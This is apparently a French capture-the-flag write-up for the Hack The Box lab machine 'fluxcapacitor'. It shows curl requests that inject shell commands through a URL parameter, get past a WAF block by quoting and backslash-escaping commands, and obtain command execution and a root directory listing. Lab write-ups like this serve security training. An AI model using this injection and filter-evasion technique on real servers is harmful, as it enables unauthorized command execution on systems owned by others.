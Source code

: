 
## Runing command

```
# curl "http://10.10.10.69/sync?opt=' ls -al /'"
<html>
<head><title>403 Forbidden</title></head>
<body bgcolor="white">
<center><h1>403 Forbidden</h1></center>
<hr><center>openresty/1.13.6.1</center>
</body>
</html>
```
Une commande bash est reconnue par le waf

Il faut mettre des ' est un espace...
Faut trouver...

```
# curl "http://10.10.10.69/sync?opt= whoami"
20190915T00:48:15

root@kali:~/htb/YoloToolbox/machines/htb/fluxcapacitor# curl "http://10.10.10.69/sync?opt=' whoami'"
nobody
bash: -c: option requires an argument

```

Escape it
```
root@kali:~/htb/YoloToolbox/machines/htb/fluxcapacitor# curl "http://10.10.10.69/sync?opt=' l\s -al /'"
total 483896
drwxr-xr-x  22 root root      4096 Dec  8  2017 .
drwxr-xr-x  22 root root      4096 Dec  8  2017 ..
drwxr-xr-x   2 root root      4096 Dec  2  2017 bin
drwxr-xr-x   3 root root      4096 Dec  8  2017 boot
drwxr-xr-x  18 root root      3880 Sep 15 00:05 dev
drwxr-xr-x  77 root root      4096 Dec  8  2017 etc
drwxr-xr-x   4 root root      4096 Dec  5  2017 home
lrwxrwxrwx   1 root root        33 Dec  8  2017 initrd.img -> boot/initrd.img-4.13.0-19-generic
lrwxrwxrwx   1 root root        33 Dec  8  2017 initrd.img.old -> boot/initrd.img-4.13.0-19-generic
drwxr-xr-x  20 root root      4096 Dec  4  2017 lib
drwxr-xr-x   2 root root      4096 Dec  2  2017 lib64
drwx------   2 root root     16384 Dec  2  2017 lost+found
drwxr-xr-x   2 root root      4096 Dec  2  2017 media
drwxr-xr-x   2 root root      4096 Dec  2  2017 mnt
drwxr-xr-x   5 root root      4096 Dec  2  2017 opt
dr-xr-xr-x 135 root root         0 Sep 15 00:05 proc
drwx------   3 root root      4096 Dec 24  2017 root
drwxr-xr-x  19 root root       520 Sep 15 00:05 run
drwxr-xr-x   2 root root      4096 Dec  8  2017 sbin
drwxr-xr-x   2 root root      4096 Dec  2  2017 srv
-rw-------   1 root root 495416320 Dec  2  2017 swapfile
dr-xr-xr-x  13 root root         0 Sep 15 00:45 sys
drwxrwxrwt  10 root root      4096 Sep 15 00:35 tmp
drwxr-xr-x  10 root root      4096 Dec  2  2017 usr
drwxr-xr-x  11 root root      4096 Dec  2  2017 var
lrwxrwxrwx   1 root root        30 Dec  8  2017 vmlinuz -> boot/vmlinuz-4.13.0-19-generic
lrwxrwxrwx   1 root root        30 Dec  2  2017 vmlinuz.old -> boot/vmlinuz-4.13.0-17-generic
bash: -c: option requires an argument

root@kali:~/htb/YoloToolbox/machines/htb/fluxcapacitor# 
```
